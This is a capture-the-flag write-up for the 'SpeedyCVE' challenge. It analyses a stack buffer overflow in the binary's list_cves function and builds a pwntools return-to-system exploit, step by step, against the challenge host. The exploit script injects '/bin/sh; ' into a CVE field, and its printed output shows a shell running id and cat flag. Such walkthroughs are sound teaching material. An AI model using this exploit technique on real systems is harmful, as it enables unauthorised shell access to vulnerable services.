

# SpeedyCVE

### System (x86)

SpeedyCVE is a simple service to manage CVE assignments. The challenge provides the [binary](speedycve_50f7a49c27ffee20516a340b6d84ac72) for the service. The menu provides the user with two options: assign a CVE, and list CVEs.




When we run the program, we see the below menu.

```
CVE Numbering Authority
1. Assign a CVE
2. List CVEs
3. Quit
```

A CVE has three fields: CVE ID, product, and version.

```
CVEID? 2017-0000
PRODUCT? Vendor A
VERSION? Product B
```

The list CVE option will print all of the assigned CVEs sorted by product and version.

```
[2017-0000] Vendor A - Product B
```

Opening the binary in IDA Pro, the first thing we notice is that symbols are included. 

```c++
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v3 = prompt(&s);
      if ( v3 != 2 )
        break;
      list_cves();
    }
    if ( v3 == 3 )
      break;
    if ( v3 == 1 )
      add_cve();
  }
```

Looking at ```list_cves```, we notice two things:

  - A string that indicates a buffer overflow: ```logger --id %d Buffer overflow in list_cves```
  - A call to ```system```

This tells us that we should probably focus on this function.


#### Vulnerability #1 (Stack Buffer Overflow)

The Hex-Rays output for the function:

```c++
int list_cves()
{
  size_t v0; // ebx
  unsigned int length; // esi
  __pid_t v2; // eax
  char buf[1036]; // [esp+10h] [ebp-40Ch]

  v0 = 0;
  length = 0;
  while ( v0 < cvedb_len )
  {
    length += sprintf(&buf[length], "[%s] %s - %s\n", 160 * v0 + 0x804A080, 160 * v0 + 0x804A0A0, 160 * v0 + 0x804A0E0);
    ++v0;
  }
  if ( length <= 0x3FF )
    return printf("%s", buf);
  printf("Result too long! Reporting to the administrator.\n");
  v2 = getpid();
  sprintf(buf, "logger --id %d Buffer overflow in list_cves", v2);
  return system(buf);
}
```

We can see from both the length check and the size of the stack buffer that we need to write more than 1024 bytes to overflow the buffer. The loop appends a line with the CVE id, product, and version to the buffer for each CVE. 

If we look at the ```add_cve``` function, we can note the maximum size of each field:

```C++
  if ( cvedb_len == 8 )
    return printf("Maximum number of CVEs!\n");
  // ...
  printf("CVEID? ");
  readline((char *)(160 * v0 + 134520960), 32);
  printf("PRODUCT? ");
  readline((char *)(32 * (v2 + v0) + 134520992), 64);
  printf("VERSION? ");
  readline((char *)(32 * (v2 + v0) + 134521056), 64);
```

If we do the math, ```8 * (7 + 31 + 63 + 63)```, we will see that we can write up to 1312 bytes to the stack buffer, which is more than enough to overwrite the return address.

We write a simple POC using pwntools to cause a crash:

```python
from pwn import *
r = gdb.debug('./speedycve')
for _ in xrange(8):
    r.sendlineafter('3.', '1')
    r.sendline('A' * 31)
    r.sendline('B' * 63)
    r.sendline('C' * 63)
r.sendlineafter('3.', '2')
r.interactive()
```

When GDB crashes, it tells us that eip is 0x42424242 and the stack contents are:

```
(gdb) x/32xw $esp
0xfffaad50:	0x42424242	0x42424242	0x42424242	0x42424242
0xfffaad60:	0x42424242	0x42424242	0x42424242	0x42424242
0xfffaad70:	0x42424242	0x42424242	0x202d2042	0x43434343
```

This tells that we can control eip by changing line 6 of our POC so that we have 63-41-4=18 bytes followed by eip, and then pad to 63 so we don't change the total length:

```python
from pwn import *
r = gdb.debug('./speedycve')
for _ in xrange(8):
    r.sendlineafter('3.', '1')
    r.sendline('A' * 31)
    r.sendline(('B' * 18 + p32(eip)).ljust(63))
    r.sendline('C' * 63)
r.sendlineafter('3.', '2')
r.interactive()
```


#### Exploitation

Once we can control the return address, we need to read the flag. Thankfully, the ```system``` function is used in the binary, so we can return to the system function.

For the argument to system , we need the address of a string we control. Since the CVE data is located in the *.bss* section, we know the address of the CVE ids, vendors, and products.

Putting everything together, we can write a simple exploit using pwntools:

```python
from pwn import *
r = remote('speedhack.theori.io', 31337)

eip = 0x8048530
arg = 0x804a0a0 # first CVE id

for _ in xrange(8):
    r.sendlineafter('3.', '1')
    r.sendline('/bin/sh; '.ljust(31))
    r.sendline(('B' * 18 + p32(eip) + p32(0x41414141) + p32(arg)).ljust(63))
    r.sendline('C' * 63)
r.sendlineafter('3.', '2')
r.interactive()
```
```
[+] Opening connection to speedhack.theori.io on port 31337: Done
[*] Switching to interactive mode
 Quit
Result too long! Reporting to the administrator.
$ id
uid=106(speedycve) gid=65534(nogroup) groups=65534(nogroup)
$ cat flag
can_i_get_a_CVE_for_this?
```

